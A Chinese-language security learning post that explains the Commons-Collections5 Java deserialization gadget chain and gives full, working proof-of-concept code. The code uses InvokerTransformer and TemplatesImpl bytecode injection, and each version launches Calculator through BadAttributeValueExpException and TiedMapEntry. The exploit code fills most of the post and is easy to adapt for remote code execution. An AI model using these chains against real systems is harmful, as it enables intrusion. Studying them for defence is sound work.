






# Java安全学习-Commons-Collections5链

# 环境搭建
> 1. `JDK`版本：JDK1.8u66
> 2. `Commons-Collections`版本：3.1

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## TiedMapEntry
> `org.apache.commons.collections.keyvalue.TiedMapEntry`是一个`Map.Entry`的实现类，它绑定了底层`map`的`Entry`，用来使一个`map entry`对象拥有在底层修改`map`的功能



> `TiedMapEntry`中有一个成员属性`Map`，`TiedMapEntry`的`getValue()`方法会调用底层`map`的`get()`方法，可以用来触发`LazyMap`的`get`，继续跟进分析，发现`TiedMapEntry`的`equals/hashCode/toString`都可以触发



> 测试代码

```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:47 下午
 */
public class TiedMapEntryDemo {

    public static void TiedMapEntryDemo() throws NotFoundException, CannotCompileException, NoSuchFieldException, IllegalAccessException, IOException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, 1);
        tiedMapEntry.toString();
    }

    public static void main(String[] args) {
        try {
            TiedMapEntryDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## BadAttributeValueExpException
> 在`javax.management.BadAttributeValueExpException`类中，当`System.getSecurityManager() == null`或者`valObj`是除了`String`的其他基础类型时，都会调用`valObj`的`toString()`方法，利用这个触发点来配合前面的`TiedMapEntry`完成链子的构造



# CommonsCollections5 分析
> 利用上面两个前置知识的触发点，配合`LazyMap`就可以完成一条新的攻击路径，也就是`CommonsCollections5`链

## POC-1

```java
package CommonsCollections5;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 1:59 下午
 */
public class CommonsCollections5Gadge1 {

    public static void CC5() throws ClassNotFoundException, NoSuchFieldException, IOException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry  tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // 反序列化
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC5();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## POC-2

```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 2:47 下午
 */
public class CommonsCollections5Gadge2 {

    public static void CC5() throws CannotCompileException, NotFoundException, NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = templates.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map hashMap = new HashMap();
        Map map = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(map, "h3rmesk1t");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC5();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


# 调用链

```java
BadAttributeValueExpException.readObject()
   TiedMapEntry.toString()
        LazyMap.get()
            ChainedTransformer.transform()
                ConstantTransformer.transform()
                    InvokerTransformer.transform()
```

# 总结
> 反序列化`BadAttributeValueExpException`调用`TiedMapEntry#toString`，间接调用了`LazyMap#get`，触发了后续的`Transformer`恶意执行链

